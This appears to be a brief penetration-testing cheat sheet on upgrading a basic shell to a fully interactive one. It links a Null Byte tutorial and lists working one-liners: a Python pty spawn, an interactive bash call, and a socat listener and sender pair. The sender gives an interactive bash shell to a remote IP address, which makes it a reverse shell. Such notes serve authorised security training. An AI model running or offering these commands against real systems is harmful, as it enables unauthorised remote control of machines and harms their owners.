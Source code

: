 Upgrading a shell allows for command history and key bindings

# Guide

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility « Null Byte :: WonderHowTo](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)


# F

# Python

`python -c 'import pty; pty.spawn("/bin/bash")'`


# Bash 

`/bin/bash -i`

# SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```